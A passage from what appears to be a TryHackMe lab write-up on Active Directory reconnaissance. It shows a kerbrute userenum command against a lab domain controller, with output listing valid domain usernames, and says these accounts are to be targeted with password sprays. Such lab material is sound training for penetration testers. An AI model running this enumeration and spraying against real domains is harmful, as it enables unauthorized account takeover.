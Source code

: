 Running those through **kerbrute** lets us confirm which ones are real, active AD users, which allows us to target them more accurately with password sprays.

`~/Downloads/kerbrute userenum --dc 10.211.11.10 -d tryhackme.loc usernames.txt `

~~~
cropped output - 

2025/05/26 21:34:33 >  [+] VALID USERNAME:	 martin.riley@tryhackme.loc
2025/05/26 21:34:33 >  [+] VALID USERNAME:	 danielle.ali@tryhackme.loc
2025/05/26 21:34:33 >  [+] VALID USERNAME:	 jennifer.harding@tryhackme.loc
2025/05/26 21:34:33 >  [+] VALID USERNAME:	 strategos@tryhackme.loc
2025/05/26 21:34:33 >  [+] VALID USERNAME:	 krbtgtsvc@tryhackme.loc
2025/05/26 21:34:33 >  [+] VALID USERNAME:	 empanadal0v3r@tryhackme.loc
2025/05/26 21:34:33 >  [+] VALID USERNAME:	 drgonz0@tryhackme.loc
2025/05/26 21:34:33 >  [+] VALID USERNAME:	 strate905@tryhackme.loc
2025/05/26 21:34:33 >  [+] VALID USERNAME:	 asrepuser1@tryhackme.loc
2025/05/26 21:34:34 >  [+] VALID USERNAME:	 user@tryhackme.loc
2025/05/26 21:34:34 >  [+] VALID USERNAME:	 rduke@tryhackme.loc
2025/05/26 21:34:34 >  Done! Tested 32 usernames (27 valid) in 0.642 seconds

~~~

